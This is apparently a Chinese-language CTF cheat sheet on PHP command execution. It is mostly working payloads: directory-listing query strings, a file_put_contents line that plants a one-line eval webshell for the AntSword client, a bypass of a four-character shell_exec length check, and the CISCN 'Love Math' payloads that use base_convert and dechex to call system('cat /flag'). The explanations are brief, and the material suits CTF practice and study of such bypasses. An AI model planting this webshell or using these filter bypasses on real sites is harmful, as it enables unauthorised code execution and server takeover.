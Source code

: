 ## 文件执行

[TOC]



###### ?cmd=print_r(glob("*"));

打印文件目录

###### ?cmd=print_r(scandir("."));



###### file_put_contents('1.php','<?php eval($_POST["pass"]);?>');

很好用，直接蚁剑链接

###### nl,,,,,,最短的命令，不对<4

```
<?php
show_source(__FILE__);
error_reporting(0);
if(strlen($_GET[1])<4){
     echo shell_exec($_GET[1]);
}
else{
     echo "hack!!!";
}
```

这是源码，命令的长度要小于4.

于是payload:

```
?1=>nl
?1=*
```

解释一下，第一个是在当前目录下创建一个nl文件夹。

第二个是 把第一个文件的名字（即nl）当中命令执行   ，  相当于执行nl命令

nl命令就是输出此目录下所有文件。

###### 数学函数

[buuctf-[CISCN 2019 初赛\]Love Math（小宇特详解）-CSDN博客](https://blog.csdn.net/xhy18634297976/article/details/123148026)

/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat /flag



?c=($_GET[pi])($_GET[abs])&pi=system&abs=cat /flag

###### hex2bin() 函数

hex2bin() 函数把十六进制值的字符串转换为 ASCII 字符。

这里的`_GET`是ASCII 字符，用在线工具将`_GET`转换为十六进制

hex2bin=base_convert(37907361743,10,36)

然后里面的5f 47 45 54要用dechex()函数将10进制数转换为16进制的数

dechex(1598506324)，1598506324转换为16进制就是5f 47 45 54